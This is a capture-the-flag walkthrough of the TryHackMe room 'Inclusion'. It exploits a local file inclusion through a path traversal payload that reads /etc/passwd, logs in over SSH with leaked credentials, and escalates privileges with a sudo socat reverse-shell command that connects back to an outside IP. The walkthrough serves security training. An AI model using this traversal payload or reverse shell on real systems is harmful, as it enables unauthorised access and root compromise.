





# Inclusion

This is for my room named `inclusion` on TryHackMe.com

## NMAP



We start with nmap scan and find out that only port 22 and 80 is open.

## HTTP

If we start looking on port 80 we'll notice a minimal website which seems like a blog under development.



We notice that there are 3 `articles` we can click on any of those and notice the URL it's like `http://inclusion.local/article?name=hacking` so there is a parameter which we can test for LFI/RFI/SQLi or other vulnerabilities. But since other articles were talking about LFI/RFI we would test for those first.



We find out that we can included the `/etc/passwd` file using path traversal technique

```bash
../../../../../../../../../../../../../../../../../../etc/passwd
```

so in the `name` parameter we pass that value and we are able to read the `/etc/passwd` file meaning it was LFI. We also notice that there is a comment which contains a username and password.

So I used `falconfeast` as username and `rootpassword` as password to login into the machine via SSH.



And now we can read `user.txt` which is in `/home/falconfeast`.

## Privilege escalation

Since we are a user on the system I checked for sudo right of that user by running

```bash
sudo -l
```


We can see that `falconfeast` can run `socat` as `root`. We can search [gtfobins](gtfobins.github.io/) for socat binary. You can also search that using tool like [gtfo](github.com/mzfr/gtfo).


We see that we can get a reverse shell using `socat`. We run the following command from the machine while our listener is listening on port `4444`

```bash
$ sudo -u root /usr/bin/socat tcp-connect:192.168.1.107:4444 exec:sh,pty,stderr,setsid,sigint,sane
```



